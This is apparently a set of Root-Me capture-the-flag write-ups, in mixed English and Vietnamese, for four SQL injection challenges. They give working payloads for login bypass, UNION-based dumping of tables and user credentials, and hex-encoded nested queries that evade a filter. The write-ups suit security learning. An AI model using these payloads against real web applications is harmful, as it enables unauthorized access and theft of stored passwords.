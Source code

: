 ## [SQL injection - Authentication](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Authentication)
### Steps to reproduce

  - Start the challenge
  - Go to the login page
  - Use the following payloads to bypass authentication:
    - Username: `admin' -- `
    - Password: `admin` 
    - Click on the "Login" button
  - Đăng nhập thành công với tư cách là quản trị viên
  - To validate the challenge use this password --> password = 'admin' --> error
  - Ctrl + U để xem source code
  - Tìm thấy password `value` trong source code
  - Submit the password to complete the challenge.

## [SQL injection - Strings](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Strings)
### Steps to reproduce
- Start the challenge
- Bài này cho ta nhiều lựa chọn hơn, ta có các chức năng như đăng nhập, tìm kiếm hay xem thông tin
- Tuy nhiên lỗi sqli xuất hiện tại ô tìm kiếm. 
- Để biết được tại sao lại bị lỗi sqli ta chỉ cần nhập vào ký tự `1'` . Lỗi sẽ xuất hiện Và biết đây là `sqlite3`
- Để khai thác lỗi sqli ta có thể sử dụng payload sau: `1' UNION SELECT sql, null FROM sqlite_master--`
- Ta sẽ thấy được các bảng trong database
- Tiếp theo ta sẽ lấy dữ liệu từ bảng `users` với payload sau: `1' UNION SELECT username,password FROM users--`
- Ta sẽ thấy được username và password của các user trong bảng users
- Submit password của user admin để hoàn thành challenge

## [SQL injection - Numeric](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Numeric)
### Steps to reproduce
- Start the challenge
- Bài này ta có thể thấy lỗi sqli xuất hiện tại tham số id trong url `action=new&new_id=1`
- Để biết được tại sao lại bị lỗi sqli ta chỉ cần nhập vào ký tự `1'` . Lỗi sẽ xuất hiện Và biết đây là `sqlite3`
- Để khai thác lỗi sqli ta có thể sử dụng payload sau: `1 UNION SELECT null,sql, null FROM sqlite_master--`
- Ta sẽ thấy được các bảng trong database
- Tiếp theo ta sẽ lấy dữ liệu từ bảng `users` với payload sau: `1 UNION SELECT null,username,password FROM users--`
- Ta sẽ thấy được username và password của các user trong bảng users
- Submit password của user admin để hoàn thành challenge.

## [SQL Injection – Routed](https://www.root-me.org/en/Challenges/Web-Server/SQL-Injection-Routed)
### Steps to reproduce
- Start the challenge
- Bài này ta có thể thấy lỗi sqli xuất hiện tại chức năng tìm kiếm
- SQL Injection – Routed : HIỂU ĐƠN GIẢN LÀ DẠNG INJECTON MÀ CÂU QUERY 2 SẼ ĐƯỢC “LỒNG” VÀO CÂU QUERY 1
- Playload: `1'` --> lỗi syntax
- Về cơ bản thường ta sẽ khai thác `' union select (giá trị muốn khai thác)-- `. Tuy nhiên thì với routed thì giá trị truy vấn với select đầu tiên sẽ không phải là truy vấn đầu vào.
- Playload: `' UNION SELECT 1-- ` --> done 
- Playload: `' UNION SELECT 'union select null,null-- ` --> `attack detected` chứng tỏ truy vấn đã bị filter mất.=> thử mã hóa `hexa truy` vấn thứ 2
- hexa của `'union select null,null-- -` là `27756E696F6E2073656C656374206E756C6C2C6E756C6C2D2D202D`
- 0x là ký tự đại diện cho hexa với hệ số 16
- Playload: `' UNION SELECT 0x27756E696F6E2073656C656374206E756C6C2C6E756C6C2D2D202D-- ` --> done
- Tìm database
- Playload: `' union select 'union SELECT 1,table_name FROM information_schema.tables where table_schema = database()-- `
- hexa của `'union SELECT 1,table_name FROM information_schema.tables where table_schema = database()-- -` là `27756E696F6E2053454C45435420312C7461626C655F6E616D652046524F4D20696E666F726D6174696F6E5F736368656D612E7461626C6573207768657265207461626C655F736368656D61203D20646174616261736528292D2D202D`
- Playload: `' union select 0x27756E696F6E2053454C45435420312C7461626C655F6E616D652046524F4D20696E666F726D6174696F6E5F736368656D612E7461626C6573207768657265207461626C655F736368656D61203D20646174616261736528292D2D202D-- `
- Tìm cột
- Playloaf: `' union select' union SELECT 1,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'-- - -- `
- hexa của `' union SELECT 1,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'-- -` là `2720756E696F6E2053454C45435420312C67726F75705F636F6E63617428636F6C756D6E5F6E616D65292046524F4D20696E666F726D6174696F6E5F736368656D612E636F6C756D6E73205748455245207461626C655F6E616D65203D20277573657273272D2D202D`
- Playload `' union select 0x2720756E696F6E2053454C45435420312C67726F75705F636F6E63617428636F6C756D6E5F6E616D65292046524F4D20696E666F726D6174696F6E5F736368656D612E636F6C756D6E73205748455245207461626C655F6E616D65203D20277573657273272D2D202D-- `
- Lấy user pass `' union select' union select 1,concat(login,' : ',password) from users-- - --`